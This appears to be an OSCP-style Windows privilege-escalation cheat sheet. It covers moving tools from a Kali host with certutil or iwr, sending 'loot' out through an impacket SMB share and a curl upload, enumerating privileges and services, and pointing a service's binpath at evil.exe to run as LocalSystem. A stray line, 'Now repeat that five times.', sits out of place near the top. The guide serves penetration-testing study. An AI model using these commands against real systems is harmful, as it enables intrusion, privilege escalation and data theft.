 # Windows Enumeration 

I will do **Manual Enumeration** before running WinPEAS. 

Now repeat that five times.

Many OSCP boxes are designed in a way where WinPEAS will not pick the PE up. But still run it once you are done with the checks below.

I assumed you got some kind of shell on a Windows host. If it is a shell from a webshell, try upgrading to a more stable shell by popping one with nc.exe (which you need to transfer from your kali) or a msfvenom payload.

## How to transfer files from Kali to Windows

Navigate to your tools folders and run the following (I like port 80 since it is highly likely that the target box will not have port 80 blocked)

```bash
python -m http.server 80
```

Back on your target box, navigate to a folder that you should have write and execute access.

I like using C:\Users\Public or if you land a shell as a user, you can use that user's directory.

```cmd
certutil.exe -urlcache -split -f http://<kali ip>/<file you want to transfer> <outputfilename>
```

The powershell equivalent is:

```powershell
iwr -uri http://<kali ip>:<port>/<file> -OutFile <outfile name>
```

Another fun way of doing it creating a smbshare on kali and then mounting it. This allows for bidrectional data transfers so you can exfiltrate files out of the target.

```bash
# on your kali
# your share name can be anything you like. If you want the cwd to be the share path, you can just put . I usually set up with a username and password as sometimes Windows does not allow you to mount an authentication-less share

impacket-smbserver -smb2support <share name> <local share path> -username kali -password kali

# example. This creates a share called exfil with the path being the directory where impacket-smbserver is being run

impacket-smbserver -smb2support exfil . -username kali -password kali

```

On your windows machine

```cmd
# mounts your exfil share on y drive and pass in kali:kali credentials

net use y: \\<kali ip>\exfil kali /user:kali
```
now you can copy files to and fro
```cmd
#copy loot.txt from target to your kali

copy loot.txt \\<kali ip>\exfil\loot.txt
```
copy evil.exe from kali to your target
```cmd
copy \\<kali ip>\exfil\evil.exe evil.exe
```

## Transferring files from Windows to Kali

If you need to upload a file back to your Kali machine, you can either opt for the SMB method above or use a python [upload server](https://pypi.org/project/uploadserver/) (requires python 3.9 and above).
It also has a GUI interface if you browse to the page

Install on your Kali machine using
```bash
pip install uploadserver
```

Depending on how python is configured on your machine, you might need to use `python3` instead
```bash
python -m uploadserver
```

The default port for uploadserver is 8000, but it can be set in the same manner as http.server by indicating the port number :
```bash
python -m uploadserver 4444
```

Upload with curl using the compromised machine (can also be used in Linux)
```powershell
curl -X POST http://192.168.100.200:8000/upload -F 'files=@suspicious_file.txt'
```

The file will be uploaded to the directory where you ran the `uploadserver` module
## Checking for the Quick Wins

Check the following:

1) Privileges and groups for your current user

- If SeImpersonatePrivilege is there, thank your lucky stars. Check the system arch with systeminfo and then upload the relevant potato exploit to elevate

- If SeShutDownPrivilege is there, note it down. Your PE path may involve service or scheduled task manipulation.

- Dont worry if it says disabled. The more important thing is that the Privilege is there.

- For groups, you are checking for any non default windows groups. Could be something like HelpDesk. Note things like 'Remote Management Users' (WinRM), 'Remote Desktop Users' (RDP) or the easy win 'Backup Operators'.

- If your user is part of 'BackUp Operators', your user can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer.

```cmd
whoami /priv

whoami /groups
```

2) Environment Variables. Sometimes there are hardcoded stuff like creds in your env so give it a quick check

```cmd
SET
```

3) Systeminfo

- Check the OS version and note the patches. If it looks ancient like Windows 7 or Windows Server 2012 or earlier, a kernel exploit like EternalBlue might be the solution. That said, I wont expect to see this in OSCP though you may see it for PG boxes. 

```cmd
systeminfo
```

4) Check the C:\Users directory. This helps you enumerate users and see (or not see) what access you have to their folders as the current user. 

- Note down any files that look out of place and exfiltrate them if required.

```cmd

cd C:\Users

tree /f /a  #this lists the current path in a recursive manner and also reveals hidden files and directories. This is a GREAT command. use this often

```

5) Now check the C:\ root directory. See anything that is NOT Users,Windows,Program Files, Program Files (x86)? *P.S you can safely ignore output.txt. That seems to be some kind of logging for OffSec boxes*

- If there is, investigate the folder. Are there files inside? Can you write into that folder? Can you edit the files? Can you see the contents of the files?

6) If there is a webserver on the host, can you find the root of that webserver and check for config files? 

7) Are there local services? *You can ignore port 53 if you see it* If there are, note it down. If it looks interesting, transfer a ligolo agent and set it up for you to access the local service. 

```cmd
netstat -ano

# On Powershell

Get-Process <PID of interest from the netstat>

```

8) Check for Scheduled Tasks

Not always effective because your current user may not have permissions to view higher access level scheduled tasks so this may not return anything useful. Still no harm taking a quick look at it

```cmd
schtasks /query /fo LIST /v
```

This will output a lot of things. But the relevant stuff will be right at the top. The rest are default stuff. If you dont see anything interesting, it may be that there is nothing there or there is something there that is being run by a higher-priv user and you just dont have the rights to see it.

9) Check for unquoted Service Paths

We can use this when we can write to a service's main or subdirectory but cannot replace files

- Each service maps to an exe file that will be run when the service is started

- the vulnerability lies in paths to the exe where there is one or more spaces and is not enclosed within quotes

- When a service is started and a process is created, the CreateProcess function is used.  The function starts interpreting the path from left to right until it reaches a space and then it appends .exe and the rest is treated as arguments

```cmd
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """

# if you find any services that dont look like default services (you need to do more boxes and then you will know what is not normal)
# check if our current user can start, stop or restart the service (might still throw an error when the command works)

Start-Service SusService

Stop-Service SusService

Restart-Service SusService
```
- if you run WinPeas and you see something like AllAccess next to a service, this means bingo. You can modify everything about that service including the path to binary that gets executed!
```cmd
# check out the context that the service runs under
sc qc <susService>
# give full perms to your evil.exe
icacls C:\Users\Public\evil.exe /grant Everyone:F
# modify the service to run your evil.exe and run it under System
sc config SusService binpath="C:\Users\Public\evil.exe" obj=LocalSystem

```

Well that is about it. If there is nothing so far, it is likely to be related to services or scheduled tasks or some sensitive file buried in the filesystem which winpeas can do for you.

